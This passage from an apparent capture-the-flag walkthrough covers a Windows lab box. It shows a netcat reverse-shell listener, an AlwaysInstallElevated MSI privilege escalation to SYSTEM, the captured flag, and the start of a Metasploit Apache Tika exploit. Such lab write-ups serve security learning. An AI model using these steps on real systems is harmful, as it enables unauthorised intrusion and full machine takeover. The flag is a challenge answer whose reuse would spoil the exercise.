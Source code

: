 Now we setup our listener on the port we enter in the [[Payload]] with [[Netcat]] :

```
┌──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ nc -lvnp 4444  

```

And we execute it (the syntax is on the hacking articles site) :

```
C:\Users\CyberLens\Desktop>msiexec /quiet /qn /i AlwaysInstallElevated.msi 
```

And we have it :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Cybelens]
└─$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.60.241] 49913
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

We can search for the root flag :

```
C:\Users\Administrator\Desktop>type admin.txt
type admin.txt
THM{3lev@t3D-4-pr1v35c!}
```

# Second Method - Metasploit

We can open the [[Metasploit]] console with `msfconsole -q` .

We search for apache tika and use that :

```
┌──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/Cybelens/web-server]
└─$ msfconsole -q
msf6 > search apache tika

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/apache_tika_jp2_jscript  2018-04-25       excellent  Yes    Apache Tika Header Command Injection


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/apache_tika_jp2_jscript

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/apache_tika_jp2_jscript) > 

```
